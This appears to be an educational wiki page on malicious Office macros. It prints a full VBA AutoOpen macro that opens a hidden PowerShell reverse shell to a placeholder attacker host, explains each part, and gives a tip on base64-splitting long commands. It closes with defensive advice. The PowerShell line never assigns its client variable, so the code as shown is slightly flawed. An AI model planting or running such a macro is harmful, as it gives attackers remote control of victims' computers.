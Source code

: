 # Macros in Office

Macros are a powerful feature primarily used in Microsoft Office applications like Word, Excel, and Access. They are designed to automate repetitive tasks by executing a series of commands and functions embedded within a document. While macros can greatly increase productivity, they can also be exploited to deliver malware, including ransomware and backdoors.

#### How Macros Can Be Malicious

Attackers often use macros as a delivery mechanism for malicious code. When a user opens a document and enables macros, the embedded code executes, which can lead to undesirable actions. These actions can range from downloading malware from external servers to executing commands directly on the user's system.

The deceptive nature of macros lies in their ability to look innocuous while performing harmful actions in the background. Attackers typically spread such malicious documents through phishing emails, claiming the content is important and urging the recipient to enable macros to view the content.

#### Example of a Malicious Macro

Below is an example of a VBA (Visual Basic for Applications) macro designed to open a reverse shell on a Windows system. This can give an attacker remote access to the victim's computer.

```vba
Sub AutoOpen()
    OpenReverseShell
End Sub

Sub OpenReverseShell()
    Dim strShellPath As String
    strShellPath = "cmd.exe /c powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient('attacker_ip',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    Shell strShellPath
End Sub
```

#### Breakdown of the Macro Code

* **AutoOpen**: This subroutine is automatically called when the document is opened, provided macros are enabled. It calls the `OpenReverseShell` subroutine.
* **OpenReverseShell**: This subroutine constructs a command string to open a command shell (`cmd.exe`), which then uses PowerShell to create a TCP connection back to the attacker's specified IP address and port (`attacker_ip`, `4444`). The shell sends its output back through this connection, effectively giving shell access to the attacker.
* **Powershell Command**: The PowerShell script sets up a `TCPClient` socket to the attacker's specified address. It reads commands sent from the attacker's server, executes them on the victim's machine, and sends the results back to the attacker.



{% hint style="info" %}
**String Length**: VBA supports a maximum string length of about 2 billion characters, which is typically more than sufficient for most macro scripts. However, the practical limits for a single line of code or string literals in VBA are much lower, usually around 1024 characters. This limit can impact the way scripts are written, particularly when embedding long shell commands or scripts directly into the VBA code; A workaround could be to base64 encode the command and concatenate it across multiple lines.
{% endhint %}

#### Security Implications

Such macros pose significant security risks and exemplify why macros should be handled with caution. Many organizations choose to disable macros by default or only allow macros from trusted sources. Additionally, modern versions of Microsoft Office prompt users before enabling macros, especially when they originate from the internet, as part of their security features to mitigate unauthorized code execution.

